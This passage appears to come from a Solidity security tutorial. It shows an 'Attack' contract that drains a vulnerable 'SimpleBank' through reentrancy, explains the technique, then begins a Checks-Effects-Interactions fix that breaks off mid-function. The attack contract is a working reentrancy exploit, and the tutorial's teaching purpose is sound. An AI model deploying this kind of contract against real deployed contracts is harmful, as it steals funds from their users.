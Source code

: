 #### Exploiting the Vulnerability

An attacker can create a malicious contract that exploits this vulnerability:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./SimpleBank.sol";

contract Attack {
    SimpleBank public bank;

    constructor(address _bankAddress) {
        bank = SimpleBank(_bankAddress);
    }

    // Fallback function to receive Ether and reenter the withdraw function
    receive() external payable {
        if (address(bank).balance >= 1 ether) {
            bank.withdraw(1 ether);
        }
    }

    // Attack function to start the reentrancy attack
    function attack() external payable {
        require(msg.value >= 1 ether);
        bank.deposit{value: 1 ether}();
        bank.withdraw(1 ether);
    }
}
```

In this attack, the `receive` function is executed every time the malicious contract receives Ether. By calling `bank.withdraw` within the `receive` function, the attacker can reenter the `withdraw` function before the balance is updated, allowing multiple withdrawals.

### Preventing Reentrancy Attacks

There are several ways to prevent reentrancy attacks in Solidity. One of the simplest methods is to use the **Checks-Effects-Interactions** pattern:

1. **Checks**: Validate conditions before executing code that changes the state.
2. **Effects**: Update the state.
3. **Interactions**: Interact with other contracts or send Ether.

Here is the `SimpleBank` contract refactored to follow this pattern:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SafeBank {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public {
        require(balances[msg.sender] >= _amount, "Insufficient balance");

        // Effects
        balances[msg.sender] -= _amount;

        // Interactions
        (bool sent, ) = msg.sender.call{value: _amount}("");
```